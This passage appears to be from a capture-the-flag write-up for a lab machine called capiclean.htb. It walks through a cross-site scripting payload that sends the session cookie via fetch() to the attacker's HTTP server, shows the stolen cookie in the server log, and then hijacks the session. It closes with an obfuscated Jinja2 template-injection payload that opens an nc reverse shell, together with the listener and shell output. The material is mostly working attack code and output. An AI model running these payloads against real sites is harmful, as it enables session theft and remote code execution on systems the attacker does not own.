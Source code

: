 ```
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capiclean.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.7
Referer: http://capiclean.htb/quote
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zq3t1A.JQgksxu10czAnKBw5RbDWWe_-Xk
Connection: keep-alive

service=%3Cimg%20src%3Dx%20onerror%3Dfetch(%22http%3A%2F%2F10.10.16.47%3A8888%2F%22%2Bdocument.cookie)%3E&email=test%40test.com
```
And on the `simple http server`i got the cookie:
```python
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.12 - - [03/Aug/2024 17:19:57] "GET /?session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zq3t1A.JQgksxu10czAnKBw5RbDWWe_-Xk HTTP/1.1" 200 -
10.10.11.12 - - [03/Aug/2024 17:19:58] "GET /?session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zq3t1A.JQgksxu10czAnKBw5RbDWWe_-Xk HTTP/1.1" 200 -
10.10.11.12 - - [03/Aug/2024 17:20:00] "GET /?session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zq3t1A.JQgksxu10czAnKBw5RbDWWe_-Xk HTTP/1.1" 200 -
```
Go to `http://capiclean.htb/login`and with [cookieEditor](https://chromewebstore.google.com/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm?hl=en) add this:![](/asets/images/Screenshot from 2024-08-03 17-25-47.png)
Then go to `http://capiclean.htb/dashboard`and go to `generateInvoice`, click generate and copy what you will get:
![](/assets/images/Screenshot from 2024-08-03 17-27-46.png)
Then go to `QRgenerator`and enter your invoice ID to get the link:
![](/assets/images/Screenshot from 2024-08-03 17-28-55.png)
After that you need to turn `intercept`on and modify what you will send. You need to get reverse shell from this.
The payload is:
```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.16.47%201234%20%3E%2Ftmp%2Ff")|attr("read")()}}
```
Here is the explanation: [chatgpt](https://chatgpt.com/share/ed81f63d-99b1-4b05-a583-b080c29b5abc)
its with my IP and port.
![](/assets/images/Screenshot from 2024-08-03 17-32-15.png)
Don't forget `NetCat`
```bash
$ nc -nlvp 1234
```
And after sending that payload in `Repeater`you will get the connection.
```bash
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.47] from (UNKNOWN) [10.10.11.12] 37226
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@iclean:/opt/app$
www-data@iclean:/opt/app$ ls
```